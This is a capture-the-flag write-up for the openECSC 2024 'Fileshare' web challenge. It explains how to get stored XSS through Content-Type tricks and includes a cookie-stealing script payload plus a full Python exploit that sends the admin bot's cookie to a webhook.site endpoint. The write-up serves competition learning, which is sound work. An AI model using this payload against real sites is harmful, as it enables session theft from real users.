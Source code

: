# openECSC 2024 - Round 1

## [web] Fileshare (257 solves)

You can now share your files for free thanks to our new disruptive technology!

Site: [https://fileshare.challs.open.ecsc2024.it](https://fileshare.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The application allows uploading arbitrary files with a Content-Type that doesn't include the letter "h".

Then, you can report the uploaded file to the admin bot to be visited, the flag is stored as a cookie in the admin browser.

## Solution

To get the flag we need to force the admin bot to execute a script, there are multiple solution paths for this problem:

- Find a Content-Type allowing script execution, without the "h" letter, like `text/xml`.

- Abuse the content sniff feature of the browser by setting an invalid Content-Type.

- Adding the "\r" character in the Content-Type, causing the PHP code to refuse setting the header. This causes the server to use the default `text/html` value as Content-Type

Using the XSS we can easily leak the flag to a webhook with a payload similar to:

```html
<script>
    location = 'https://YOUR-WEBHOOK/?' + document.cookie;
</script>
```

## Exploit

```python
import requests
import re
import time

chall_url = "https://fileshare.challs.open.ecsc2024.it/"


r = requests.post('https://webhook.site/token')
token_id = r.json()['uuid']

payload = f'''
<script>
    location = 'https://webhook.site/{token_id}/?' + document.cookie;
</script>
'''

files = {
    'file': ('payload.html', payload, 'aaa\rbbb')
}

response = requests.post(chall_url + '/upload.php', files=files)

assert 'has been uploaded' in response.text

id = re.search(r'/download\.php\?id=(\w+)"', response.text)[1]

response = requests.post(chall_url + '/support.php', data={'fileid': id, 'message': 'test'})

assert 'Thank you, we are taking care of your problem!' in response.text

for _ in range(10):
    r = requests.get('https://webhook.site/token/'+ token_id +'/requests')

    for request in r.json()['data']:
        m = re.search(r'openECSC\{.+\}', request['url'])
        if (m):
           print(m.group(0))
           exit()
           
    time.sleep(2)

```
